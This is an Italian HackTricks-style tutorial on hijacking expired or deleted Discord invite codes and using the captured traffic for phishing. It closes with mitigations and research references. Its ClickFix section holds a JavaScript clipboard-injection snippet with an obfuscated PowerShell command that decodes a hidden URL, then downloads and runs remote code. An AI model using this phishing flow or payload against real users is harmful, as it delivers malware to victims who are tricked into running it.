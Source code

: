 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

La vulnerabilità del sistema di inviti di Discord consente agli attori delle minacce di rivendicare codici di invito scaduti o eliminati (temporanei, permanenti o personalizzati) come nuovi link vanity su qualsiasi server potenziato di Livello 3. Normalizzando tutti i codici in minuscolo, gli attaccanti possono preregistrare codici di invito noti e dirottare silenziosamente il traffico una volta che il link originale scade o il server sorgente perde il suo potenziamento.

## Tipi di Inviti e Rischio di Dirottamento

| Tipo di Invito        | Dirottabile? | Condizione / Commenti                                                                                       |
|-----------------------|--------------|------------------------------------------------------------------------------------------------------------|
| Link di Invito Temporaneo | ✅          | Dopo la scadenza, il codice diventa disponibile e può essere nuovamente registrato come URL vanity da un server potenziato. |
| Link di Invito Permanente | ⚠️          | Se eliminato e composto solo da lettere minuscole e cifre, il codice potrebbe diventare nuovamente disponibile.        |
| Link Vanity Personalizzato | ✅          | Se il server originale perde il suo Potenziamento di Livello 3, il suo invito vanity diventa disponibile per una nuova registrazione.    |

## Passi di Sfruttamento

1. Ricognizione
- Monitorare fonti pubbliche (forum, social media, canali Telegram) per link di invito che corrispondono al modello `discord.gg/{code}` o `discord.com/invite/{code}`.
- Raccogliere codici di invito di interesse (temporanei o vanity).
2. Preregistrazione
- Creare o utilizzare un server Discord esistente con privilegi di Potenziamento di Livello 3.
- In **Impostazioni Server → URL Vanity**, tentare di assegnare il codice di invito target. Se accettato, il codice è riservato dal server malevolo.
3. Attivazione del Dirottamento
- Per inviti temporanei, attendere che l'invito originale scada (o eliminarlo manualmente se controlli la sorgente).
- Per codici contenenti lettere maiuscole, la variante minuscola può essere rivendicata immediatamente, anche se il reindirizzamento si attiva solo dopo la scadenza.
4. Reindirizzamento Silenzioso
- Gli utenti che visitano il vecchio link vengono inviati senza soluzione di continuità al server controllato dall'attaccante una volta che il dirottamento è attivo.

## Flusso di Phishing tramite Server Discord

1. Limitare i canali del server in modo che sia visibile solo un canale **#verify**.
2. Distribuire un bot (ad es., **Safeguard#0786**) per invitare i nuovi arrivati a verificarsi tramite OAuth2.
3. Il bot reindirizza gli utenti a un sito di phishing (ad es., `captchaguard.me`) sotto le spoglie di un passaggio CAPTCHA o di verifica.
4. Implementare il trucco UX **ClickFix**:
- Visualizzare un messaggio CAPTCHA rotto.
- Guidare gli utenti ad aprire la finestra di dialogo **Win+R**, incollare un comando PowerShell precaricato e premere Invio.

### Esempio di Iniezione Clipboard ClickFix
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Questo approccio evita download diretti di file e sfrutta elementi UI familiari per ridurre il sospetto degli utenti.

## Mitigazioni

- Utilizzare link di invito permanenti contenenti almeno una lettera maiuscola o un carattere non alfanumerico (mai scadere, non riutilizzabili).
- Ruotare regolarmente i codici di invito e revocare i link vecchi.
- Monitorare lo stato del potenziamento del server Discord e le rivendicazioni degli URL vanity.
- Educare gli utenti a verificare l'autenticità del server e a evitare di eseguire comandi incollati dagli appunti.

## Riferimenti

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord Custom Invite Link Documentation – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
